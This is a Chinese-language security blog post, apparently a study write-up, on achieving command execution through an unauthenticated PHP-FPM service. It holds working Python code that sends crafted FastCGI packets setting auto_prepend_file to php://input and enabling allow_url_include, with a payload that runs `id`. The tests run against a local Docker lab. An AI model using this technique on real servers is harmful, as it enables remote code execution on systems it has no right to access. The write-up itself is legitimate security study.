 ```yaml
---
layout: post
title:  file_put_contents + php-fpm 命令执行
subtitle: file_put_contents + ftp passive mode + php-fpm = 命令执行
tags: [php-fpm,websec,命令执行]
---
```


## 序
在阅读Laravel debug rce[1]的文章时，感叹文章中的技巧之余，有一句话引起了我的注意。
`It is well-known that, if you can send an arbitrary binary packet to the PHP-FPM service, you can execute code on the machine.`
众所周知，我不知呀！

本文学习file_put_contents + FTP + php-fpm的命令执行。

## 原理
参考[2]，我们可以得知，PHP-FPM未授权访问时，可以通过修改变量auto_prepend_file或auto_append_file来执行文件。
根据[1]中描述，我们需要让file_put_contents时，将结果写到php-fpm，这样造成命令执行。

## 实验

### php-fpm命令执行
docker起一个php-fpm的环境
```bash
docker pull wyveo/nginx-php-fpm
docker run -d wyveo/nginx-php-fpm
```
利用[pyfcgiclient](https://github.com/Terr/pyfcgiclient)来发送fastcgi数据包
```python
from pyfcgiclient.fpm import FPM

phpfpm = FPM(
    host='127.0.0.1',
    port=9000,
    sock="/run/php/php8.0-fpm.sock",
    document_root='/usr/share/nginx/html'
)

post_string = '<?php echo `id`;phpinfo(); exit();?>'

status_header, headers, output, error_message = phpfpm.load_url(
    url='/index.php?a=b',
    content=post_string,
    remote_addr='127.0.0.1',
    cookies='c=d;e=f;'
)
print(output)
```
由于有些参数我们没办法直接修改，就直接修改pyfcgiclient里面的文件。在pyfcgiclient的fpm.py的env中增加PHP_VALUE和PHP_ADMIN_VALUE
```python
            'PHP_VALUE': 'auto_prepend_file = php://input',
            'PHP_ADMIN_VALUE': 'allow_url_include = On',
```
同时修改flup_fcgi_client.py中的_environPrefixes，增加PHP_
```python
    _environPrefixes = ['SERVER_', 'HTTP_', 'REQUEST_', 'REMOTE_', 'PATH_',
                        'CONTENT_', 'DOCUMENT_', 'SCRIPT_','PHP_']
```
docker exec进入容器，下载对应文件，python执行，成功执行phpinfo。到这里，我们成功对php-fpm发包执行命令了。不过这里使用的是socket文件，不是ip+port的方式。后面我们需要修改配置。
